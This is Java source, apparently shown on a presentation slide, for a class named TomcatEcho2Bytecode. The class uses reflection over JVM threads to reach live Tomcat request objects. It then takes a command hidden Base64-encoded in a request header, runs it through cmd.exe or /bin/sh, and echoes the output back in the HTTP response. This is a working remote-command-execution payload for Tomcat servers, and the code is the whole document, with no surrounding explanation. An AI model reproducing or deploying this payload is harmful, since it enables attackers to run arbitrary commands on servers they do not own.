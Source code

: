 ````md magic-move
```java
public TomcatEcho2Bytecode() {
    try {
        boolean var1 = false;
        Thread[] var2 = (Thread[]) getFV(Thread.currentThread().getThreadGroup(), "threads");

        for (int var3 = 0; var3 < var2.length; ++var3) {
            Thread var4 = var2[var3];
            if (var4 != null) {
                String var5 = var4.getName();
                if (!var5.contains("exec") && var5.contains("http")) {
                    Object var6 = getFV(var4, "target");
                    if (var6 instanceof Runnable) {
                        try {
                            var6 = getFV(getFV(getFV(var6, "this$0"), "handler"), "global");
                        } catch (Exception var141) {
                            continue;
                        }

                        List var8 = (List) getFV(var6, "processors");

                        for (int var9 = 0; var9 < var8.size(); ++var9) {
                            Object var10 = var8.get(var9);
                            var6 = getFV(var10, "req");
                            Object var11 = var6.getClass().getMethod("getResponse").invoke(var6);

                            try {
                                var5 = (String) var6.getClass().getMethod("getHeader", String.class)
                                    .invoke(var6, new String(header));
                                if (var5 != null && !var5.isEmpty()) {
                                    String c = new String(Base64.getDecoder().decode(var5));
                                    String[] var12 = System.getProperty("os.name").toLowerCase().contains("window") 
                                        ? new String[]{"cmd.exe", "/c", c} 
                                        : new String[]{"/bin/sh", "-c", c};
                                    writeBody(var11, 
                                      ((new Scanner((new ProcessBuilder(var12)).start().getInputStream()))
                                          .useDelimiter("\\A").next() + "=====").getBytes()
                                      );
                                    var1 = true;
                                }

                                if (var1) {
                                    break;
                                }
                            } catch (Exception var13) {
                                writeBody(var11, var13.getMessage().getBytes());
                            }
                        }

                        if (var1) {
                            break;
                        }
                    }
                }
            }
        }
    } catch (Exception ignored) {
    }
}
```
````